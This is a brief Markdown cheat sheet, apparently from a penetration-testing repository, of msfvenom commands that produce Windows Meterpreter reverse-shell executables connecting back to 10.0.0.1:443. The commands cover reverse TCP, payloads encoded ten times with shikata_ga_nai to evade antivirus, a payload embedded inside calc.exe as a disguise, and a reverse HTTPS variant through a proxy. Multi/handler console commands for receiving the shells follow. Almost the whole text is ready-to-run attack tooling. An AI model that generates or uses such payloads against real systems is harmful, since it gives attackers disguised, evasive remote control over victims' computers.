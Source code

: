 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
